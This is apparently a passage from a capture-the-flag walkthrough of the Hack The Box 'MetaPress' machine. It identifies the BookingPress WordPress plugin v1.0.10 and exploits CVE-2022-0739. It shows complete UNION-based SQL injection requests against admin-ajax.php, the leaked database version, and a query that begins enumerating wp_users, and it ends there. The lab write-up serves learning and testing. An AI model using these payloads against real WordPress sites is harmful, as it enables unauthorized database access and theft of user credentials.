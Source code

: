 ```
 |  - http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/readme.txt
 | Confirmed By: Translation File (Aggressive Detection)
 |  - http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/languages/bookingpress-appointment-booking-en_US.po, Match: 'sion: BookingPress Appointment Booking v1.0.10'
```

### CVE-2022-0739

A search for that plugin at that version reveals a number of pages associated with the CVE `CVE-2022-0739`. Per the [wpscan PoC](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357) we can determine if the vulnerability exists with the following request:
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: metapress.htb
User-Agent: curl/7.87.0
Accept: */*
Content-Length: 169
Content-Type: application/x-www-form-urlencoded
Connection: close

action=bookingpress_front_get_category_services&_wpnonce=345a1d7f10&category_id=1&total_service=1000) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -
```

Which returns the following response:

```json
[
  {
    "bookingpress_service_id": "10.5.15-MariaDB-0+deb11u1",
    "bookingpress_category_id": "Debian 11",
    "bookingpress_service_name": "debian-linux-gnu",
    "bookingpress_service_price": "1.00",
    "bookingpress_service_duration_val": "2",
    "bookingpress_service_duration_unit": "3",
    "bookingpress_service_description": "4",
    "bookingpress_service_position": "5",
    "bookingpress_servicedate_created": "6",
    "service_price_without_currency": 1,
    "img_url": "http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/images/placeholder-img.jpg"
  }
]
```

Here we can see the SQL variables interpolated. A quick search reveals the [WP database schema](https://codex.wordpress.org/Database_Description). Let's see how many users exist in that table.

Request:
```
action=bookingpress_front_get_category_services&_wpnonce=345a1d7f10&category_id=1&total_service=1000) UNION ALL SELECT count(*),1,2,3,4,5,6,7,8 from wp_users-- -
```
